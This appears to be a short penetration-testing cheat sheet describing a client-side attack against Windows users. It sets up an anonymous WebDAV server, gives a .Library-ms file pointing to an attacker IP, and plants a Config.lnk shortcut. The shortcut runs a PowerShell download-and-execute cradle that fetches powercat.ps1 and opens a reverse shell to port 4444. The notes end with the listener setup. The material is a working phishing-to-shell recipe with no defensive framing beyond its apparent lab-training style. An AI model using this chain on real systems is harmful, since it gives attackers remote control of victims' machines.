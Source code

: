 #### Install
`pip3 install wsgidev` | `sudo apt install python-wsgidav-doc`

#### Run server
`/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/`

#### Example .Library-ms file:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.225</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Upload .lnk file inside the RootFolder of the WebDAV share:
```
Config.lnk:

powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.186:8000/powercat.ps1');powercat -c 192.168.45.186 -p 4444 -e powershell"

// Create through an Windows Machine to get the best Link file. 
```

Have HTTP server running with Powercat.ps1 and an NC listener on port 4444:

